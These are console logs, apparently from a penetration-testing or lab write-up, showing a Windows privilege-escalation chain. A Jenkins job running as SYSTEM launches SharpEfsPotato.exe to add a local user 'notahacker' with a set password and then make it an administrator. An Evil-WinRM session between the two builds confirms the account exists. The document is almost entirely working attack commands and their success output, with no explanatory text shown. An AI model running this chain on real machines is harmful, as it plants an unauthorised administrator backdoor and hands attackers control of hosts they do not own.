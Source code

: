 ```
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project
[project] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins7079034259087297973.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>C:\Users\oliver\documents\SharpEfsPotato.exe -p "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "net user /add notahacker Password246" 
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/889b6e04-3992-4998-8cb5-da9b83cfb232/\889b6e04-3992-4998-8cb5-da9b83cfb232\889b6e04-3992-4998-8cb5-da9b83cfb232
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>exit 0 
Finished: SUCCESS
```


```
*Evil-WinRM* PS C:\Users\oliver\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt
maria                    notahacker               oliver
The command completed with one or more errors.

```


```
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project
[project] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins10848734177499432175.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>C:\Users\oliver\documents\SharpEfsPotato.exe -p "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "net localgroup administrators notahacker /add" 
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/33c4357b-c82b-4b56-b195-1bd0308e9d38/\33c4357b-c82b-4b56-b195-1bd0308e9d38\33c4357b-c82b-4b56-b195-1bd0308e9d38
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>exit 0 
Finished: SUCCESS
```